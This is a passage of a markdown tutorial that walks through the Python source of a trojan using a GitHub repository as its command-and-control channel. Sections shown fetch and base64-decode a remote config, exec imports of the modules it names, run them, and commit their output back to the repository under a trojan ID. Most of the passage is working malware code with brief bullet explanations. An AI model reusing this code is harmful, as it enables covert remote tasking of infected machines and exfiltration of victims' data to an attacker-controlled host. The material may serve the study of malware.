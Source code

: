 ```python
def get_file_contents(filepath):
    gh, repo, branch = connect_to_github()
    tree = branch.commit.commit.tree.to_tree().recurse()
    for filename in tree.tree:
        if filepath in filename.path:
            print(f"[*] Found file {filepath}")
            blob = repo.blob(filename._json_data["sha"])
            return blob.content
    return None
```
- **Searches for a file in the repository**.
- **Retrieves its contents as Base64-encoded data**.

---

### **5️⃣ Loading the Trojan Configuration**
```python
def get_trojan_config():
    global configured
    config_json = get_file_contents(trojan_config)
    configuration = json.loads(base64.b64decode(config_json))
    configured = True

    for tasks in configuration:
        if tasks["module"] not in sys.modules:
            exec(f"import {tasks['module']}")

    return configuration
```
- **Retrieves and decodes the JSON configuration file**.
- **Dynamically imports specified modules**.

---

### **6️⃣ Storing Execution Results**
```python
def store_module_result(data):
    gh, repo, branch = connect_to_github()
    remote_path = f"data/{trojan_id}/{random.randint(1000, 100000)}.data"
    repo.create_file(remote_path, "Commit message", data.encode())
    return
```
- **Saves execution results back to GitHub**.
- **Creates a random filename for each result**.

---

### **7️⃣ Running Modules**
```python
def module_runner(module):
    task_queue.put(1)
    result = sys.modules[module].run()
    task_queue.get()

    store_module_result(result)
    return
```
- **Executes the `run()` function of each loaded module**.
- **Stores the output in the GitHub repository**.

---